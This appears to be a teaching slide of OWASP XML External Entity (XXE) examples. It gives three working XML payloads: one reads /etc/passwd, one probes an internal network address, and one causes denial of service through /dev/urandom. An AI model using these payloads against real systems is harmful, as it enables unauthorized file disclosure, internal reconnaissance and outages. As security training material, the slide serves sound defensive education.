

# XML External Entity – Examples (OWASP)
Internal file disclosure
<?xml version="1.0">
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>

Internal network probing
<?xml version="1.0">
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "https://192.168.1.1/" >]>
<foo>&xxe;</foo>

Denial of service
<?xml version="1.0">
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///dev/urandom" >]>
<foo>&xxe;</foo>

(/dev/urandom is a Linux virtual device file that streams out an endless stream of random bytes)